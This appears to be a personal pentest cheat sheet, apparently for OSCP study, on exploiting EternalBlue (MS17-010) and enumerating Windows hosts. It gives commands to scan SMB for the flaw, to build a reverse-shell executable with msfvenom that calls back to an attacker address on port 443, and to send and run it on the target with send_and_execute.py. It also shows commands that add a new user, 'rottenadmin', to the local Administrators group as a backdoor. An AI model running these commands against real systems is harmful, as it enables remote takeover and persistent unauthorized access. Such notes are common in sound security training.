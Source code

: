 ### Scan Eternal Blue (MS17-010)
https://ivanitlearning.wordpress.com/2019/02/24/exploiting-ms17-010-without-metasploit-win-xp-sp3/  
https://root4loot.com/post/eternalblue_manual_exploit/

- Check if target is vulnerable

		sudo nmap --script=*smb-vuln* -p139,445 10.10.10.40

- Create a reverse shell (pay attention if the target is 64 or not)

		msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.73 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe

		OR

		msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.73 LPORT=443 -f exe -o ms17-010.exe

- Go in toolbox/MS-017 and execute 'send_and_execute'

		python send_and_execute.py 192.168.1.207 ms17-010.exe

## MANUAL SYSTEM ENUMERATION
https://0xsp.com/offensive/privilege-escalation-cheatsheet
[Windows Shell cheat sheet](/home/r0ck/Documents/notes/OSCP/WINDOWS_SHELL.md)  
[Powershell cheat sheet](/home/r0ck/Documents/notes/OSCP/POWERSHELL.md)  
https://cheatography.com/blacklist/cheat-sheets/linux-windows-privilege-escalation/

### Get system informations

		systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
		hostname
		echo %username%
		echo %path%

		type C:\Windows\System32\license.rtf

		OR

		type C:\Windows\System32\eula.txt

		Get system infos
		Get-Hotfix
		Get-ExecutionPolicy

		Get Architecture

### Get drivers informations

		DRIVERQUERY

### Get users/groups informations

		net users
		net user user1
		net localgroup
		net localgroup Administrators
		net user rottenadmin P@ssword123! /add
		net localgroup Administrators rottenadmin /add
